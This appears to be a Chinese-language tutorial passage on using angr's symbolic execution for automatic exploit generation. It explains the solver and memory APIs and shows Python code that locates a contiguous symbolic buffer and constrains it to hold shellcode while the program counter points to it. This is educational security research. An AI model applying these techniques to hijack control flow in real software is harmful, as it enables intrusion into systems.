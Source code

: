 `state.solver.get_variables()` 获得内存中的符号变量。

>  `get_variables(*keys)`
>
> Iterate over all variables for which their tracking key is a prefix of the values provided.
>
> Elements are a tuple, the first element is the full tracking key, the second is the symbol.



`state.memory.addrs_for_name()` 返回包含符号变量的内存地址。

> `addrs_for_name`(*n*)
>
> Returns addresses that contain expressions that contain a variable named n.

`state.posix.stdin`为传入程序的全部符号变量



```python
def check_continuity(address, addresses, length): # 检查一段连续的地址空间是否为符号化
    '''
    dumb way of checking if the region at 'address' contains 'length' amount of controlled
    memory.
    '''
    for i in range(length):
        if not address + i in addresses:
            return False
    return True
```

获得 `symolic_buffer` 思路思路：找出所有的符号地址，存在 `sym_addrs` 数组中，遍历数组中每一个地址 addr，判断与该地址相邻的地址是否在 `sym_addrs` 数组中。即`[addr,addr+length]` 区间的每个地址是否都在 `sym_addrs` 中，如是，则为一段连续的符号化空间，即 symbolic buffer。

```python
# keep checking if buffers can hold our shellcode
    for buf_addr in find_symbolic_buffer(ep, len(shellcode)): # 调用  find_symbolic_buffer 获得 symbolic buffer
        l.info("found symbolic buffer at %#x", buf_addr)
        memory = ep.memory.load(buf_addr, len(shellcode)) # 获取 buffer 
        sc_bvv = ep.solver.BVV(shellcode) #将 shellcode 转成 bitvector 类型
        # check satisfiability of placing shellcode into the address
        if ep.satisfiable(extra_constraints=(memory == sc_bvv,ep.regs.pc == buf_addr)):
            l.info("found buffer for shellcode, completing exploit")
            ep.add_constraints(memory == sc_bvv) # 约束 1 
            l.info("pointing pc towards shellcode buffer")
            ep.add_constraints(ep.regs.pc == buf_addr) # 约束 2 
            break
    else:
        l.warning("couldn't find a symbolic buffer for our shellcode! exiting...")
        return 1
```

获得 `symbolic buffer` 列表后，判断其中的 buffer 是否满足利用约束，如果可以满足，则添加约束到 ep(可利用状态) ，最后进行约束求解。这里漏洞利用约束有两个:

1. 缓冲区可以存放 `shellcode` （` memory == sc_bvv`)
2. pc 值可以指向 `buffer` 地址(`ep.regs.pc == buf_addr`)
